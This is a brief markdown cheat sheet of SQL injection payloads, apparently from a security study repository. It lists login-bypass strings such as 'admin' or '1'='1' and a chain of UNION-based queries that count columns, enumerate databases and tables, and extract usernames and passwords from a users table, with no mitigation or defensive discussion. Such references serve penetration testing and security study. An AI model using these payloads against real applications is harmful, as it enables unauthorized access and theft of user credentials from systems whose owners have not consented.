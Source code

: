 ```yaml
---
title: SQL Injection
lastUpdated: 2025-09-21
---
```


## Bypass authentication

| Query | Purpose |
| ----------- | ----------- |
| `admin' or '1'='1` | Bypass basic authentication |
| `admin')-- -` | Bypass basic authentication with comments |

## Union Injection

| Query | Purpose |
| ----------- | ----------- |
| `wok' order by 1-- -` | Detect the number of columns using `order by` |
| `wok' UNION select 1,2,3-- -` | Detect the number of columns using Union injection |
| `wok' union select schema_name,2,3,4,5,6 from information_schema.schemata-- -` | Get all databases |
| `wok' union select table_name,2,3,4,5,6 from information_schema.tables where table_schema=database();-- -` | Get all tables |
| `wok' union select username,password,3,4,5,6 from users;-- -` | Get username and password |
